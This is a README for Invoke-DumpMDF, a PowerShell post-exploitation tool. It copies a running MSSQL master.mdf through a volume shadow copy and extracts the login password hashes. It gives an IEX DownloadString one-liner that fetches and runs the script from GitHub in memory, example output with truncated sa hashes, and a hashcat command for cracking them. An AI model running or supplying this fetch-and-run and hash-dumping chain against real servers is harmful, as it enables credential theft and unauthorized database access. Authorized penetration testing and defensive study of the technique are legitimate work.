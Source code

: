 # Invoke-DumpMDF

Invoke-DumpMDF is a PowerShell script based on the original code by XPN (xpn.github.io). Invoke-DumpMDF creates a Volume Shadow Copy of the running MSSQL database, allowing the master.mdf file to be safely copied even while in use. It then extracts the login password hashes found within the master database.

Invoke-DumpMDF requires diskshadow to be installed (Default on Windows Server). This is to allow the running master.mdf database to be copied into a new file before extraction. After completion, the script will cleanup after itself. 

The resulting hashes can be cracked with Hashcat.

## Requirements
- Administrative or SYSTEM level privileges are required.
- Disk Shadow installed (Default on Windows Server)



## Usage
```powershell
# Load into memory
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/Invoke-DumpMDF/refs/heads/main/Invoke-DumpMDF.ps1")

# Execute
Invoke-DumpMDF
```
  
## Example Output
```powershell
PS> Invoke-DumpMDF

Name  : sa
Value : 0x020050B40C7843AC5C196F9375549D3...

Name  : MS_PolicyEventProcessingLogin
Value : 0x0200F54F742AB9F142716E96CB13317...

Name  : MS_PolicyTsqlExecutionLogin
Value : 0x020043538738C5813669062A64AS0CC...
```
## Crack with Hashcat
```
hashcat.exe -m 1731 -a 0 -O 0x020050B40C7843AC5C196F9375549D3... Wordlists\rockyou.txt -r rules\best54.rule
```
## Further Reading 
- https://blog.xpnsec.com/extracting-master-mdf-hashes/
- https://medium.com/@jacobdiamond/extracting-sql-user-hashes-leveraging-bak-files-for-mssql-server-access-in-ad-pentest-b42e7bbcc88c
- https://github.com/xpn/Powershell-PostExploitation/blob/master/Invoke-MDFHashes/Get-MDFHashes.ps1
